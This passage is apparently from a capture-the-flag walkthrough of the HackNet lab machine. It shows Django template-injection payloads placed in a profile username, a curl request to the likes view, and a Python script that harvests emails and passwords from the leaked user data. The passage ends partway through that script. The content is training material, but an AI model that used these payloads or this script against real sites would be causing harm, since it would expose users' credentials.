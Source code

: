    * Profile editing (name, signature, avatar)
   * Creating posts
   * Liking/unliking posts
   * Messaging

*Learning point:* Understanding the functionality helps identify potential input points for template injection.

---

## Act 3 — Django Template Injection (DTL)

**Step 1: Test injection**

```text
# Edit profile username to:
{{ users }}
```

* Like any post.
* Click **View Likes**.
* Inspect the HTML or use `curl`:

```bash
curl -s -b "csrftoken=CSRFTOKEN; sessionid=SESSIONID" http://hacknet.htb/likes/1
```

You’ll see `<QuerySet [...]>` confirming template evaluation.

**Step 2: Extract full user data**

```text
# Change username to:
{{ users.values }}
```

* Repeat liking posts 1-30.
* Inspect likes to get emails and passwords.

*Learning point:* `{{ users }}` = test, `{{ users.values }}` = actual data extraction.

---

## Act 4 — Automate Credential Extraction

```python
# extract_creds.py
import re, requests, html

BASE='http://hacknet.htb'
HEADERS={'Cookie':'csrftoken=YOUR_CSRF; sessionid=YOUR_SESSION'}
found=set()

for post_id in range(1,31):
    # Like the post to trigger the likes view
    requests.get(f"{BASE}/like/{post_id}", headers=HEADERS)
    r=requests.get(f"{BASE}/likes/{post_id}", headers=HEADERS)

    # Extract image titles containing QuerySet dump
    titles=re.findall(r'<img [^>]*title="([^"]*)"', r.text)
    if not titles: continue
    last=html.unescape(titles[-1])

    # Extract emails and passwords
    emails=re.findall(r"'email': '([^']*)'", last)
    pwds=re.findall(r"'password': '([^']*)'", last)
    for e,p in zip(emails,pwds):
        found.add(f"{e.split('@')[0]}:{p}")

```